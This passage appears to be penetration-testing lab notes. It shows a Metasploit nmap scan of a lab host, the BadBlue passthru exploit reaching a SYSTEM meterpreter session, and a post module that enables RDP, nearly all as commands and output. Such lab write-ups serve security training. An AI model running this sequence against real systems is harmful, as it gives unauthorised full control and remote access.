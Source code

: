 ```bash
db_status
setg RHOSTS 10.0.17.50
workspace -a RDP
db_nmap -sV 10.0.17.50
```

```bash
[*] Nmap: Not shown: 990 closed ports
[*] Nmap: PORT      STATE SERVICE      VERSION
[*] Nmap: 80/tcp    open  http         BadBlue httpd 2.7
[*] Nmap: 135/tcp   open  msrpc        Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 49152/tcp open  msrpc        Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc        Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc        Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc        Microsoft Windows RPC
[*] Nmap: 49165/tcp open  msrpc        Microsoft Windows RPC
[*] Nmap: 49176/tcp open  msrpc        Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

# Note that RDP port 3389 is disabled
```

### Exploitation <a href="#exploitation-3" id="exploitation-3"></a>

```
use exploit/windows/http/badblue_passthru
options
run
```

```bash
meterpreter > sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows
    
meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
```

### Enable RDP <a href="#enable-rdp" id="enable-rdp"></a>

```bash
search enable_rdp
use post/windows/manage/enable_rdp
options
sessions
set SESSION 1
run
```
